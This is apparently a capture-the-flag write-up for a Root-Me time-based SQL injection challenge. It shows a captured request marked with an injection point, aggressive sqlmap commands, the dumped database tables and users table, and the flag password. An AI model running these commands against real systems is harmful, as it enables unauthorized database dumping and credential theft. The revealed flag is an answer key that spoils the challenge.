



This time we are gonna use `sqlmap`.

First, this would be our `req.txt`:
```
GET /web-serveur/ch40/?action=member&member=1* HTTP/1.1
Host: challenge01.root-me.org
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,he;q=0.8
Cookie: PHPSESSID=a0a9bf6cba3fb6496406e26de8562935
Connection: keep-alive
```

Notice the `*` I added, there would be the injection point.

Then, we'll run this command:
```bash
sqlmap -r req.txt --risk=3 --level=5 --batch --dbs
```
we give this `--risk=3 --level=5` because we want it to be aggressive. we give `--batch`, this says: "Don't ask me about anything during the running, if there is some question, do the default behavior".

And finally we got `--dbs`, which says dump the databases
this is the databases we got:
```
public
```


Now, we want to get tables, and we know the database, so this is the command:
```bash
sqlmap -r req.txt --batch -D public --tables
```
This is the response
```
[2 tables]
+-------+
| dual  |
| users |
+-------+
```


```bash
sqlmap -r req.txt --batch -D public -T users --dump
```
And the response
```
Database: public
Table: users
[3 entries]
+---------+------------------------+----------+--------------+----------+-----------+
| id      | email                  | lastname | password     | username | firstname |
+---------+------------------------+----------+--------------+----------+-----------+
| 1       | ycam@sqlitimebased.com | MAC      | T!m3B@s3DSQL! | <blank>  | Yann      |
| <blank> | <blank>                | <blank>  | <blank>      | <blank>  | k         |
| <blank> | <blank>                | <blank>  | <blank>      | <blank>  | V         |
+---------+------------------------+----------+--------------+----------+-----------+
```



**Flag:** **_`T!m3B@s3DSQL!`_**